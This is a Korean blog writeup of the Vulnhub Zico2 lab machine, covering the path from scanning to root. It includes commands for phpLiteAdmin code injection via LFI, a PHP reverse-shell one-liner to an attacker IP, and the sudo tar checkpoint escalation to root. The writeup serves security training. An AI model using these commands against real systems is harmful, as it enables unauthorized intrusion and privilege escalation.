 ```yaml
---
layout: post
title: Vulnhub - Zico2
subtitle: Zico2 writeup
category: writeup
tags: [writeup, vulnhub, zico, linux, phpliteadmin]
author: Hong
---
```


이번 포스팅에서는 Vulnhub의 Zico2머신 라이트업을 작성하겠다.  
이번 머신은 root로의 권한상승은 쉬웠지만 처음 쉘에 침입하기까지가 복잡했다.  
먼저 핑스윕으로 ip주소를 검색한 뒤 Zico머신의 IP를 찾는다.  
나의 경우 192.168.11.143이었다.

# nmap

IP주소를 찾았기 때문에 nmap으로 포트를 스캔했다.

```
nmap -sC -sV 192.168.11.143
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-02 09:25 JST
Nmap scan report for 192.168.11.143
Host is up (0.0023s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Zico's Shop
|_http-server-header: Apache/2.2.22 (Ubuntu)
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          37434/udp6  status
|   100024  1          50232/tcp6  status
|   100024  1          55865/tcp   status
|_  100024  1          59117/udp   status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

열려있는 서비스가 3개 있다. ssh, web, rpc.  
우선 rpc가 나왔기 때문에 정보를 찾아보았다.

```
rpcinfo -p 192.168.11.143
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100024    1   udp  59117  status
    100024    1   tcp  55865  status
```

쿼리결과 NFS가 기동되고 있지 않기 때문에 rpc는 사용할 수 없을 것 같다.

# 웹 서버 분석

이어서 80번 포트의 웹서버를 살펴보았다.  
웹페이지를 살펴봐도 특별히 입력이 가능한 부분이나 의심스러운 부분은 없었다.  
혹시 공략할만한 디렉토리가 있는지 보기위해 gobuster를 이용했다.

## gobuster

```
gobuster dir -u http://192.168.11.143 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.11.143
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 291]
/.hta                 (Status: 403) [Size: 286]
/.htpasswd            (Status: 403) [Size: 291]
/cgi-bin/             (Status: 403) [Size: 290]
/css                  (Status: 301) [Size: 314] [--> http://192.168.11.143/css/]
/dbadmin              (Status: 301) [Size: 318] [--> http://192.168.11.143/dbadmin/]
/img                  (Status: 301) [Size: 314] [--> http://192.168.11.143/img/]
/index.html           (Status: 200) [Size: 7970]
/index                (Status: 200) [Size: 7970]
/js                   (Status: 301) [Size: 313] [--> http://192.168.11.143/js/]
/LICENSE              (Status: 200) [Size: 1094]
/package              (Status: 200) [Size: 789]
/server-status        (Status: 403) [Size: 295]
/tools                (Status: 200) [Size: 8355]
/vendor               (Status: 301) [Size: 317] [--> http://192.168.11.143/vendor/]
/view                 (Status: 200) [Size: 0]
```

여러가지 디렉토리들 중에 **/dbadmin**이 눈에 띄었다.  
해당 디렉토리로 이동하면 다음과 같은 화면이 나온다.  
![login](/assets/img/writeup/vulnhub/login.png)  
조금 검색해보니 디폴트 비밀번호가 **admin**이라고 한다.

admin으로 로그인하면 데이터베이스 관리 화면이 나온다.  
![db_main](/assets/img/writeup/vulnhub/db_main.png)  
심지어 데이터베이스의 테이블을 보면 root와 zico의 해쉬화 된 비밀번호도 볼 수 있었다!  
각각 MD5로 디코딩했더니 다음과 같은 비밀번호들이 나왔다.  
34kroot34, zico2215@  
이걸로 끝?! 너무 쉬웠다.

# ssh

위에서 얻은 root와 zico의 정보로 ssh 접속을 시도해봤다.  
그런데 접속에 계속 실패했다.  
아무래도 위의 비밀번호는 다른 곳에 쓰이는 모양이다. 어쩐지 너무 쉽다 했다.  
더이상 데이터베이스에서 얻을 수 있는 정보는 없었기 때문에 phpliteadmin 1.9.3버전의 취약점을 검색해 보았다.

# phpLiteAdmin 1.9.3

검색해보니 원격으로 명령어를 실행할 수 있는 취약점이 있었다.  
이 취약점을 사용한 CTF 문제도 발견했다.  
https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/08_Nineveh.md  
위의 풀이를 보면 취약점을 어떻게 이용하는지 알 수 있었다.  
![phpliteadmin](/assets/img/writeup/vulnhub/phpliteadmin.png)
비슷한 방법으로 hack.php라는 데이터베이스에 테이블을 만들고 디폴트 값에 cmd를 여는 명령어를 입력했다.  
데이터베이스의 메인화면을 보면 새로만든 데이터베이스의 경로가 나오기 때문에 그 경로를 복사해서 웹서버에 LFI 형식으로 입력했다.  
`192.168.11.143/view.php?page=tools.html../../../../..//usr/databases/hack.php`  
그리고 디폴트로 설정해뒀던 터미널에 명령어를 전달하기 위해 파라미터에 리버스쉘을 여는 명령어를 입력했다.  
`php -r '$sock=fsockopen("192.168.11.128",4444);exec("/bin/sh -i <&3 >&3 2>&3");’ `  
물론 웹인코딩을 하지 않으면 제대로 인식되지 않기 때문에 웹인코딩을 한 후 입력하면 최종적으로 아래와 같이 된다.  
`192.168.11.143/view.php?page=tools.html../../../../..//usr/databases/hack.php&cmd=php+-r+'%24sock%3Dfsockopen("192.168.11.128"%2C4444)%3Bexec("%2Fbin%2Fsh+-i+<%263+>%263+2>%263")%3B';`  
이걸로 4444번 포트를 리스닝한 후 리버스쉘 연결에 성공했다!

# linpeas

접속을 하면 처음에는 www-data로 되어있다.  
권한 상승을 위해 여기저기 파일들을 살펴봐도 정보가 눈에 잘 들어오지 않았다.  
결국 linpeas를 이용하기로 결정. 로컬머신에서 웹서버를 세우고 linpeas를 tmp디렉토리에 옮겨서 실행했다.

```
-rw-r--r-- 1 zico zico 2831 Jun 19  2017 /home/zico/wordpress/wp-config.php
define('DB_NAME', 'zico');
define('DB_USER', 'zico');
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8');
define('DB_HOST', 'zico');
```

linpeas의 결과 중에 눈에 띄는 부분이 있었는데, 워드프레스 설정 파일에 zico의 비밀번호로 추정되는 정보가 있었다.  
위의 비밀번호를 사용해서 su를 실행했다.

```
zico@zico:/tmp$ whoami
whoami
zico
```

zico의 권한은 획득했지만 아직 root로 권한상승이 남아있다.  
먼저 zico의 sudo 권한을 보기 위해 `sudo -l`을 입력했다.

```
zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
```

tar와 zip를 sudo권한으로 사용할 수 있다는 것을 확인.  
자주 애용하는 [gtfobins](https://gtfobins.github.io/gtfobins/tar/#sudo)에서 tar의 sudo권한 상승 정보를 얻었다.  
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`  
명령어를 입력했더니 root의 권한을 얻을 수 있었다.

```
flag.txt
# cat flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
#
# Hope you enjoyed!
#
#
#
#
```

# 결론

처음 초기침입에 함정이 있는게 인상적이었다. 데이터베이스에 유저와 root의 비밀번호가 있어서 그게 힌트라고 생각해 발목이 붙잡혀있었다.  
포기하고 다른 취약점을 찾고나서 진척이 있었다.  
phpliteadmin의 취약점을 찾았지만 사용법이 까다로웠다. 여러가지 검색해서 CTF에 사용된 예를 보고 따라할 수 있었다.  
root의 권한상승의 경우 gtfo를 활용하면 간단하게 해결할 수 있었다.
